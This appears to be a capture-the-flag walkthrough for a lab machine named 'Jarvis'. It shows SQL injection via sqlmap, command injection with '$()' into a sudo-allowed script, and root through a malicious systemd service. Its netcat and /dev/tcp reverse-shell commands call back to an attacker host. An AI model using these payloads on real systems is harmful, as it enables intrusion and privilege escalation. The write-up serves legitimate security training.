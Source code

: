jarvis
---

## Steps

1. sqli to get shell and reverse connect

We find the page `/room.php?cod=1` is vulnerable to sqli

We run sqlmap on it to get a shell, and reverse connect back to our machine

2. sudo -l, and pepper shell

we get a shell as `www-data`

running sudo -l, we see that we can run `/var/www/Admin-Utilities/simpler.py` as pepper

looking at the source code, ping runs exec, and while the tried to filter out commands, they forgot `$()`

```
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

> $(whoami)

pepper

```

to write a revserse shell connection, we need to write the nc commands to a file first, since the program filters out special characters

we then run it with `simpler.py`

```
echo "nc <IP> <port> -e /bin/sh" > /var/www/html/shell.sh

sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

> $(sh /var/www/html/shell.sh)

```

You should now have a pepper shell, and can get the user flag

## Root Flag

1. SUID `/bin/systemctl`

Checking what binaries pepper can run

```
find / -group pepper 2>/dev/null | grep -v proc

...
/bin/systemctl
...
```

we can create a malicious service that reverse connects back to our machine. because the SUID bit is set, it will be a root shell

```
/dev/shm/root.service
---
[Unit]
Description=pwned

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'

[Install]
WantedBy=multi-user.target
---


systemctl enable /dev/shm/root.service
systemctl start root.service
```

with the root shell you can get the root flag
